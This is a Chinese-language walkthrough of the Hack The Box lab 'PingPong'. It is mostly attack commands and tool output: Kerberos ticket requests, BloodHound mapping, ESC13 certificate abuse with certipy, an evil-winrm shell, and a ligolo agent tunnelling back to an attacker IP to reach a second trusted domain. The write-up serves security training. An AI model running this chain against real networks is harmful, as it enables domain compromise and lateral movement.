# HTB Season10 - PingPong

初始凭证：`c.roberts \ AssumedBreach123`

##　端口扫描

```bash
nmap --min-rate 5000 -T4 10.129.32.118
```



### 详细扫描

```bash
nmap -sCV -O --min-rate 5000 -T4 -p53,88,135,139,389,445,464,593,636,2179,3268,3269,5985 10.129.32.118
```

KDC比本机快8小时，需要调整时间。

```bash
Nmap scan report for 10.129.32.118
Host is up (0.22s latency).

PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-04-27 09:02:42Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: ping.htb, Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:dc1.ping.htb, DNS:ping.htb, DNS:PING
| Not valid before: 2026-04-20T18:54:50
|_Not valid after:  2106-04-20T18:54:50
|_ssl-date: TLS randomness does not represent time
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: ping.htb, Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:dc1.ping.htb, DNS:ping.htb, DNS:PING
| Not valid before: 2026-04-20T18:54:50
|_Not valid after:  2106-04-20T18:54:50
|_ssl-date: TLS randomness does not represent time
2179/tcp open  vmrdp?
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: ping.htb, Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:dc1.ping.htb, DNS:ping.htb, DNS:PING
| Not valid before: 2026-04-20T18:54:50
|_Not valid after:  2106-04-20T18:54:50
|_ssl-date: TLS randomness does not represent time
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: ping.htb, Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:dc1.ping.htb, DNS:ping.htb, DNS:PING
| Not valid before: 2026-04-20T18:54:50
|_Not valid after:  2106-04-20T18:54:50
|_ssl-date: TLS randomness does not represent time
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2022|10|11|2012|2016 (89%)
OS CPE: cpe:/o:microsoft:windows_server_2022 cpe:/o:microsoft:windows_10 cpe:/o:microsoft:windows_11 cpe:/o:microsoft:windows_server_2012:r2 cpe:/o:microsoft:windows_server_2016
Aggressive OS guesses: Microsoft Windows Server 2022 (89%), Microsoft Windows 10 1703 or Windows 11 21H2 - 23H2 (85%), Microsoft Windows Server 2012 R2 (85%), Microsoft Windows Server 2016 (85%)
No exact OS matches for host (test conditions non-ideal).
Service Info: Host: DC1; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required
|_clock-skew: 8h00m06s
| smb2-time: 
|   date: 2026-04-27T09:03:34
|_  start_date: N/A

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 100.50 seconds
```

---

## C.ROBERTS-TGT

```bash
nxc smb 10.129.32.118 -u c.roberts -p AssumedBreach123
```

发现该测试账户关闭NTLM认证,只允许Kerberos认证



### kerb5配置

```bash
[libdefaults]
    default_realm = PING.HTB
    dns_lookup_realm = false
    dns_lookup_kdc = false
    ticket_lifetime = 24h
    forwardable = yes
    noaddresses = true

[realms]
    PING.HTB = {
        kdc = dc1.ping.htb
        admin_server = dc1.ping.htb
    }

[domain_realm]
    .ping.htb = PING.HTB
    ping.htb  = PING.HTB
```

### 申请Kerberos票据

```bash
# 申请TGT票据
faketime '+ 8 hours' impacket-getTGT ping.htb/c.roberts:'AssumedBreach123' -dc-ip 10.129.32.118
# 导入票据
export KRB5CCNAME=/root/Desktop/HTB/S10/PingPong/c.roberts.ccache
```

---

## SMB Client

```bash
faketime '+ 8 hours' impacket-smbclient -k dc1.ping.htb
```

无信息泄露



---

## Bloodhound-PING.HTB

### 收集域信息

```bash
faketime '+ 8 hours' bloodhound-ce-python -u c.roberts -d PING.HTB -c All --zip -k -no-pass -ns 10.129.32.118 
```



### 分析域信息

导入bloodhound,分析域信息



跨域`(PONG.HTB)S-1-5-21-2410575906-3092493790-2123333151-1104`账户对`GMSA$@ping.htb`有读取密码的权限



---

## ADCS枚举

```bash
faketime '+ 8 hours' certipy-ad find \
-u 'c.roberts' \
-k -no-pass \
-dc-ip '10.129.32.118' \
-dc-host 'dc1.ping.htb' \
-target 'dc1.ping.htb' \
-vulnerable \
-enable \
-text
```

**[!] Vulnerabilities
      ESC13                             : Template allows client authentication and issuance policy is linked to group 'CN=TempWinRMAccess,CN=Users,DC=ping,DC=htb'.**



### ESC13

1. **模板：TemporaryWinRM**
   - 所有 Domain Users 都可以申请证书
   - 支持 Client Authentication 客户端认证
   - 私钥 可导出
   - 不用管理员审批、无需经理同意
   - 命中 ESC13 漏洞
2. **ESC13 成因**
   - 模板绑定了特定发放策略，策略关联 TempWinRMAccess 组，普通域用户默认能申请该证书，申请后拿到证书可：
        - 证书认证登录域内机器 WinRM
        - 域内权限漫游、提权

#### 申请证书

```bash
faketime '+ 8 hours' certipy-ad req \
-u 'c.roberts' \
-k -no-pass \
-target 'dc1.ping.htb' \
-dc-ip '10.129.32.118' \
-dc-host 'dc1.ping.htb' \
-ca 'ping-DC1-CA' \
-template 'TemporaryWinRM'

```



#### 认证证书

```bash
# 删除先前TGT票据
rm /root/Desktop/HTB/S10/PingPong/c.roberts.ccache
# 认证证书
faketime '+ 8 hours' certipy-ad auth \
-pfx c.roberts.pfx \
-dc-ip '10.129.32.118'
# 导入票据
export KRB5CCNAME=/root/Desktop/HTB/S10/PingPong/c.roberts.ccache
```

### WinRM

```bash
faketime '+ 8 hours' evil-winrm -i dc1.ping.htb -r ping.htb
```



#### 隧道搭建

```shell
# Kali
proxy -selfcert
interface_create --name "ligolo"
# evil-WinRM
agent.exe -connect 10.10.16.114:11601 -ignore-cert
# Kali
session
tunnel_start --tun ligolo
# ligolo 添加路由
interface_add_route --name ligolo --route 192.168.2.0/24
# kali 设置路由
ip route add 192.168.2.0/24 dev ligolo
```



---

## 内网信息探测

### 端口扫描

```bash
nmap -Pn --min-rate 3000 -T4 --top-ports 1000 192.168.2.2
```



### 详细扫描

```bash
nmap -Pn -sCV --min-rate 3000 -T4 -p53,88,135,139,389,445,593,1433,3268,3269 192.168.2.2
```

**192.168.2.2->**`pong.htb`

```bash
Starting Nmap 7.99 ( https://nmap.org ) at 2026-04-30 01:35 -0400
Nmap scan report for pong.htb (192.168.2.2)
Host is up (1.2s latency).

PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-04-30 13:35:56Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: pong.htb, Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
1433/tcp open  ms-sql-s      Microsoft SQL Server 2022 16.00.1000.00; RTM
|_ssl-date: 2026-04-30T13:37:06+00:00; +8h00m02s from scanner time.
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2026-04-30T10:54:56
|_Not valid after:  2056-04-30T10:54:56
| ms-sql-info: 
|   192.168.2.2:1433: 
|     Version: 
|       name: Microsoft SQL Server 2022 RTM
|       number: 16.00.1000.00
|       Product: Microsoft SQL Server 2022
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: pong.htb, Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
Service Info: Host: DC2; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required
|_clock-skew: mean: 8h00m00s, deviation: 0s, median: 8h00m00s
| smb2-time: 
|   date: 2026-04-30T13:36:23
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 96.01 seconds
```

### krb5配置

```bash
[libdefaults]
    default_realm = PING.HTB
    dns_lookup_realm = false
    dns_lookup_kdc = false
    ticket_lifetime = 24h
    forwardable = yes
    noaddresses = true

[realms]
    PING.HTB = {
        kdc = dc1.ping.htb
        admin_server = dc1.ping.htb
    }
    PONG.HTB = {
        kdc = dc2.pong.htb
        admin_server = dc2.pong.htb
    }

[domain_realm]
    .ping.htb = PING.HTB
    ping.htb  = PING.HTB
    .pong.htb = PONG.HTB
    pong.htb = PONG.HTB
```

---

## PONG.HTB

**ping.htb** 和 **pong.htb** 双向信任 这意味着认证和资源访问可以在两个域之间双向流动




